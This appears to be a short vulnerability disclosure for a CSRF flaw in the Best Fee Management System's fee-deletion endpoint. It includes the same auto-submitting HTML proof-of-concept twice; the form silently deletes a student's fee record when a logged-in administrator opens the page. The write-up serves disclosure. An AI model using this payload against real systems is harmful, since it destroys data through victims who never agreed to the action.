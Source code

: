 # Summary
SourceCodester Best Fee Management System Project has a CSRF vulnerability in `/click_fees/index.php?page=fees`, which allows attackers to trick administrators who are logged into the site to delete students' fee information.

# Details
In url : `/click_fees/index.php?page=fees`
![image](https://github.com/user-attachments/assets/66e7dfb2-b52a-4cfc-88e8-c5e1f30b2fed)

Choose module `Students Fees` and choose option `delete`:
![image](https://github.com/user-attachments/assets/3002784c-500a-4521-b4d8-5b1a26594135)


Use burpsuite to intercept, finding that there's no csrf token for protection:
![image](https://github.com/user-attachments/assets/6dc958b6-4d9f-4e7a-9f38-cafa95a6cc5c)

CSRF PoC:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://fee:84/click_fees/ajax.php?action=delete_fees" method="POST">
      <input type="hidden" name="id" value="3" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

![CSRF2_PoC](https://github.com/user-attachments/assets/7da0d4d6-c958-479e-b251-bee24f2f90cc)



# PoC
CSRF PoC:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://fee:84/click_fees/ajax.php?action=delete_fees" method="POST">
      <input type="hidden" name="id" value="3" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

![CSRF2_PoC](https://github.com/user-attachments/assets/7da0d4d6-c958-479e-b251-bee24f2f90cc)
